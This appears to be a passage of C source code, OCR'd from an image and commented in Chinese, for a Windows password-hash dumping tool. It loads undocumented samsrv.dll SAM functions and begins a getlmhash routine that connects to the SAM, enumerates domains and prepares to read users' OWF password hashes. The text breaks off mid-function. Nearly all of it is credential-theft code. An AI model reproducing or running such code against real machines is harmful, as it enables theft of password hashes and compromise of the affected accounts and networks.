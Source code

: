 static HANDLE                               outfile                             = INVALID_HANDLE_VALUE;
static char                                *outbuf                              = NULL;
static size_t                               outbuflen                           = 0;
static HMODULE                              samsrv                              = NULL;

/*
 * 由samsrv.dll引出的Undocumented Win32 API函数指针
 */
static SAMICONNECT                          SamIConnect                         = NULL;
static SAMROPENDOMAIN                       SamrOpenDomain                      = NULL;
static SAMROPENUSER                         SamrOpenUser                        = NULL;
static SAMRQUERYINFORMATIONUSER             SamrQueryInformationUser            = NULL;
static SAMIFREE_SAMPR_USER_INFO_BUFFER      SamIFree_SAMPR_USER_INFO_BUFFER     = NULL;
static SAMRCLOSEHANDLE                      SamrCloseHandle                     = NULL;
static SAMRENUMERATEUSERSINDOMAIN           SamrEnumerateUsersInDomain          = NULL;
static SAMIFREE_SAMPR_ENUMERATION_BUFFER    SamIFree_SAMPR_ENUMERATION_BUFFER   = NULL;
static SAMRENUMERATEDOMAINSINSAMSERVER      SamrEnumerateDomainsInSamServer     = NULL;
static SAMRLOOKUPDOMAININSAMSERVER          SamrLookupDomainInSamServer         = NULL;

/*
 * 由ntdll.dll引出的Native API函数指针
 */
static RTLNTSTATUSTODOSERROR                RtlNtStatusToDosError               = NULL;

/************************************************************************/

static void getlmhash ( void )
{
    NTSTATUS    status;
    HANDLE                              SamHandle               = NULL,
                                        EnumerationHandle       = NULL,
                                        DomainHandle            = NULL,
                                        UserHandle              = NULL;
    PSAM_SERVER_DOMAIN_ENUMERATION      ServerDomainEnumeration = NULL;
    DWORD                               DomainCount             = 0,
                                        UserCount               = 0,
                                        Count                   = 0;
    PSID                                DomainSid               = NULL;
    PSAM_DOMAIN_USER_ENUMERATION        DomainUserEnumeration   = NULL;
    BOOL                                nomoredata              = FALSE;
    PSAM_USER_OWF_PASSWORD_INFORMATION  UserOWFPasswordInfo     = NULL;

    status              = SamIConnect
    (
        0,              // 意义不明，调用时一般为0
        &SamHandle,     // [out]参数，是指向HANDLE的指针，不是HANDLE
        0x10000030,     // Access Mask
                        // Generic read
                        // Open domain
                        // Enum domains
        1               // 意义不明，调用时一般为1
    );
    if ( !NT_SUCCESS( status ) )
    {
        PrintZwErrorCUI
        (
            "SamIConnect() failed",
            status
        );
        goto getlmhash_exit;
    }
    status              = SamrEnumerateDomainsInSamServer
    (
        SamHandle,                  // 源自sam connect操作
        &EnumerationHandle,         // [in/out]参数，Resume Handle